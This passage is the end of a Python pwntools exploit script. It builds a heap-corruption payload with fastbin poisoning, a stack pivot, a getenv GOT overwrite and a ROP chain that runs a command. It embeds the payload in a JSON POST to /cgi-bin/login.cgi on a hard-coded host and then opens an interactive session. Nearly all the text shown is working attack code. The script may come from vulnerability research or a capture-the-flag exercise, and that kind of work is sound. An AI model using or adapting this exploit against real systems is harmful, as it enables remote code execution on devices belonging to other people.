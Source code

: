 ```plain
        # .text:00000000004087F5 test    rsi, rsi
        # .text:00000000004087F8 jz      short loc_408801
        # .text:00000000004087F8
        # .text:00000000004087FA mov     rdi, [rbx+10h]
        # .text:00000000004087FE call    qword ptr [rbx+8]
        0x08: p64(0x00000000004381d3), # .free -> xchg eax, esp ; je 0x43901d ; add rsp, 0xe8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
        0x10: p64(0x675ec8 - 0x28), # getenv@got - 0x28
        0x18: CMD,
        0x118: ropchain
    })

    hijack_payload =  b'"ddddddddddddddddddddddddddddddddddddddd\u"   '
    hijack_payload += b'e' * 0x5c
    hijack_payload += pivot_payload
    hijack_payload += b'"'
    # hijack_payload += b','
    # print("hijack_payload len {:#x}, raw_len {:#x}".format(len(hijack_payload), raw_len(hijack_payload)))


    # print("message len {:#x}".format(template_len + raw_len(overflow_old_top_chunk_payload) + raw_len(overflow_new_top_chunk_payload) + raw_len(free_new_top_chunk_payload) + raw_len(overflow_fastbin_fd_payload) + raw_len(dummy_alloc_payload) + raw_len(hijack_payload)))

    array_payload = generate_array_payload(top_chunk_size - 0x1040 - 0x50 - 0x20, template_len + raw_len(overflow_old_top_chunk_payload) + raw_len(overflow_new_top_chunk_payload) + raw_len(free_new_top_chunk_payload) + raw_len(overflow_fastbin_fd_payload) + raw_len(dummy_alloc_payload) + raw_len(hijack_payload)) 

    payload =  array_payload
    payload += overflow_old_top_chunk_payload
    payload += overflow_new_top_chunk_payload
    payload += free_new_top_chunk_payload
    payload += overflow_fastbin_fd_payload
    payload += dummy_alloc_payload
    payload += hijack_payload

    http_body = json_template % get_raw_payload(payload)
    write("exp_data", http_body)

    http_template = b'''
POST /cgi-bin/login.cgi HTTP/1.1\r
Host: %s:%d\r
Content-Type: application/json\r
Content-Length: %d\r
\r
%s
'''.strip()
    # print(http_template)

    http_message = http_template % (host, port, len(http_body), http_body)

    io.send(http_message)

    io.interactive()

if __name__ == "__main__":
    host = b"192.168.64.135"
    port = 8080

    exp(host, port)
```